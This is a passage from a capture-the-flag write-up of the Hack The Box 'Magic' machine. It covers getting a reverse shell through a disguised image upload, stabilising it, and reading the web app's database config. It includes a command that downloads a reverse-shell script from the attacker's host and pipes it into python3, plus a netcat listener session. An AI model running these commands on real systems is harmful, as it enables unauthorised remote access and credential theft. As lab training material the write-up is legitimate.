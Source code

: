 I hope this shows you that even when I'm close to the answer, it is not always obvious. That's why I believe it to be very important to keep on trying different things and being creative, all while not forgetting what we have done and found so far.

Foothold done, we now have a reverse shell running as `www-data`:

```
root@kali:~/htb/magic# nc -lvnp 4321
listening on [any] 4321 ...
connect to [10.10.15.245] from (UNKNOWN) [10.10.10.185] 49684
ls -la
total 7348
drwxr-xr-x 2 www-data www-data    4096 Jul 31 12:48 .
drwxr-xr-x 4 www-data www-data    4096 Apr 14 05:04 ..
-rw-r--r-- 1 www-data www-data 5289209 Oct 22  2019 7.jpg
-rw-r--r-- 1 www-data www-data 1455770 Oct 22  2019 giphy.gif
-rw-r--r-- 1 www-data www-data    3080 Jul 31 04:56 image.jpg
-rw-r--r-- 1 www-data www-data   10533 Jul 31 05:19 index.jpeg
-rw-r--r-- 1 www-data www-data  124278 Oct 22  2019 logo.png
-rw-r--r-- 1 www-data www-data  100328 Oct 22  2019 magic-1424x900.jpg
-rw-r--r-- 1 www-data www-data   37787 Oct 22  2019 magic-hat_23-2147512156.jpg
-rw-r--r-- 1 www-data www-data   67973 Oct 22  2019 magic-wand.jpg
-rw-r--r-- 1 www-data www-data     238 Jul 31 05:18 png.png
-rw-r--r-- 1 www-data www-data    3047 Jul 31 12:48 rev_shell_magicked.php.jpg
-rw-r--r-- 1 www-data www-data     192 Jul 31 03:49 shell.jpg
-rw-r--r-- 1 www-data www-data      32 Jul 31 12:43 simple.jpg
-rw-r--r-- 1 www-data www-data    5693 Jul 31 12:10 sinkhole.png
-rw-r--r-- 1 www-data www-data   10533 Jul 31 05:50 test.jpeg
-rw-r--r-- 1 root     root      361568 Apr 14 04:56 trx.jpg
-rw-r--r-- 1 www-data www-data    5560 Jul 31 11:36 webshell.png
whoami
www-data
```

## User

First things first, the PHP shell was a bit broken at times, so I quickly created a `rev.py` python script which I served using `python3 -m http.server 80` and downloaded and executed on the target machine by doing `wget http://10.10.15.245/rev.py -O- | python3`. It was taken from [pentestmonkey's reverse shell cheat sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet), just changing the ip and port.
Now our shell is more stable and we can upgrade it (via `python3 -c 'import pty;pty.spawn("/bin/bash")'`).

We can now go a couple directories up and look at the source code:
```
www-data@ubuntu:/var/www/Magic/images/uploads$ 
www-data@ubuntu:/var/www/Magic/images/uploads$ cd ../..
www-data@ubuntu:/var/www/Magic$ ls -la
total 52
drwxr-xr-x 4 www-data www-data 4096 Mar 17 09:10 .
drwxr-xr-x 4 root     root     4096 Mar 13 06:07 ..
-rwx---r-x 1 www-data www-data  162 Oct 18  2019 .htaccess
drwxrwxr-x 6 www-data www-data 4096 Jun  6  2019 assets
-rw-r--r-- 1 www-data www-data  881 Oct 16  2019 db.php5
drwxr-xr-x 4 www-data www-data 4096 Apr 14 05:04 images
-rw-rw-r-- 1 www-data www-data 4528 Oct 22  2019 index.php
-rw-r--r-- 1 www-data www-data 5539 Oct 22  2019 login.php
-rw-r--r-- 1 www-data www-data   72 Oct 18  2019 logout.php
-rw-r--r-- 1 www-data www-data 4520 Oct 22  2019 upload.php
www-data@ubuntu:/var/www/Magic$ cat db.php5 
<?php
class Database
{
    private static $dbName = 'Magic' ;
```